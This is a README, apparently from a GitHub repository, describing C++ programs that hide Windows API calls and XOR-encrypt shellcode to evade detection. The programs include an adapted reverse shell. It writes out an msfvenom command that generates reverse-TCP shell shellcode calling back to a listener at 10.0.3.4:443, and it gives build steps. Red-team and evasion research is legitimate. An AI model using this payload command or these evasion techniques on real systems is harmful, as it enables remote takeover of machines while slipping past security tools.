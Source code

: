 # Function Call Obfuscation

## Details
This was inspired by `https://jamespatricksec.medium.com/function-call-obfuscation-51f6bb171767` and `https://medium.com/@irfanbhat3/function-call-obfuscation-1bcd58e62b8e` where it is discussed and shown how to *obfuscate function calls* for **Windows binaries**. The `Original.cpp` contains the original function calls before any obfuscation. The `SC_Rev.cpp` obfuscates `VirtualProtect`, `VirtualAlloc`, `CreateThread` `WaitForSingleObject`. Both use the **standard msfvenom** shellcode with `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.3.4 LPORT=443 -f c -v shellcode_payload` for testing purposes. The `XOR_Rev.cpp` uses a **basic xor encryption** for the shellcode utilizing the `sc_xor.cpp` file. The `Rev.cpp` is originally found in `https://github.com/tihanyin/Simple-Reverse-Shell/blob/main/Reverse_shell_2021_12.cpp` with some minor modifications and obfuscating the `CreateProcess` function call. All of them use the `func_xor.cpp` script for **xor encryption** of the function name.

## Compiling
1. For both `func_xor.cpp` and `sc_xor.cpp` use `g++ func_xor.cpp -o func_xor` if compiling on **Linux**

2. For the others, you **Console App C++** in *Visutal Studio*. Use the `Release x64` option when building the binary.
